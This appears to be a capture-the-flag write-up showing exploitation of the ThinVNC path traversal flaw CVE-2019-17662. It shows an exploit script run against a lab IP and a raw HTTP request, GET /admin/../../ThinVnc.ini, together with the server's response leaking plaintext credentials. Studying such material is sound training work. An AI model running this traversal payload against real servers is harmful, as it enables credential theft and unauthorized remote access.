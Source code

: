 ```
┌──(kali㉿kali)-[~/CVE-2019-17662]
└─$ python3 CVE-2019-17662.py 10.10.92.200 8080

     _____ _     _    __     ___   _  ____                                                                    
    |_   _| |__ (_)_ _\ \   / / \ | |/ ___|                                                                   
      | | | '_ \| | '_ \ \ / /|  \| | |                                                                       
      | | | | | | | | | \ V / | |\  | |___                                                                    
      |_| |_| |_|_|_| |_|\_/  |_| \_|\____|                                                                   
                                                                                                              
                            @MuirlandOracle                                                                   

                
[+] Credentials Found!
Username:       Atlas
Password:       H0ldUpTheHe@vens

using burpsuite

https://redteamzone.com/ThinVNC/

GET /admin/../../ThinVnc.ini HTTP/1.1

HTTP/1.1 200

Content-Type: application/binary

Content-Length: 149

Connection: Keep-Alive

[Authentication]

Unicode=0

User=Atlas

Password=H0ldUpTheHe@vens

Type=Digest

[Http]

Port=8080

Enabled=1

[Tcp]

Port=

[General]

AutoStart=1

https://www.youtube.com/watch?v=whqiiNXZlIk&ab_channel=%C4%A2%C4%93%C5%A6%C4%90%C5%97%C4%A9%C9%A4%C9%98

```